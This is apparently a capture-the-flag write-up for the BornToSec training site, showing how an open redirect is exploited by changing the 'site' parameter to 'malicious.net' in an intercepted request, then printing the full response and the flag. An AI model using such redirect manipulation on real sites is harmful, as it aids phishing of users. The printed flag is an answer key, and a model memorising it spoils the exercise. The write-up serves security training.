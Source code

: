 # Open redirect
- a vulnerability where a web application allows attackers to redirect users to arbitrary URLs by manipulating a URL parameter
- if the application doesn't properly validate the 'site' parameter, an attacker can inject a malicious URL
- https://book.hacktricks.xyz/pentesting-web/open-redirect

<b>keywords</b>: redirect<br>
<b>attacked site</b>: http://borntosec.42/index.php?page=redirect&site=facebook

## Exploit
At the bottom of the main page, we observe that the social media buttons perform redirection to external sites:
```
http://borntosec.42/index.php?page=redirect&site=facebook
```
We intercept the GET request using <code>Burp Suite</code> and modify the redirection to point to our malicious site:
``` http
GET /index.php?page=redirect&site="malicious.net" HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.56.106/
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
This successfully returns the following response:
``` http
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 07 Aug 2024 23:47:17 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Content-Length: 2102

<!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script src="js/init.js"></script>
		<noscript>
			<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />
			<link rel="icon" type="image/x-icon" href="favicon.ico" />
			<link rel="stylesheet" href="css/skel.css" />
			<link rel="stylesheet" href="css/style.css" />
			<link rel="stylesheet" href="css/style-xlarge.css" />
		</noscript>
	</head>
	<body class="landing">
		<!-- Header -->
		<header id="header" >
								<a href=http://192.168.56.106><img src=http://192.168.56.106/images/42.jpeg height=82px width=82px/></a>
								<nav id="nav">
					<ul>
						<li><a href="index.php">Home</a></li>
						<li><a href="?page=survey">Survey</a></li>
						<li><a href="?page=member">Members</a></li>
					</ul>
				</nav>
			</header>

		<!-- Main -->
			<section id="main" class="wrapper">
				<div class="container" style="margin-top:75px">
<center><h2 style="margin-top:50px;">Good Job Here is the flag : b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> 				</div>
			</section>
		<!-- Footer -->
			<footer id="footer">
				<div class="container">
					<ul class="icons">
						<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>
						<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>
						<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>
					</ul>
					<ul class="copyright">
						<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"><li>&copy; BornToSec</li></a>
					</ul>
				</div>
			</footer>
	</body>
</html>
```
The flag is included in the response:
```
Good Job Here is the flag : b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3
```

## Flag
b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3
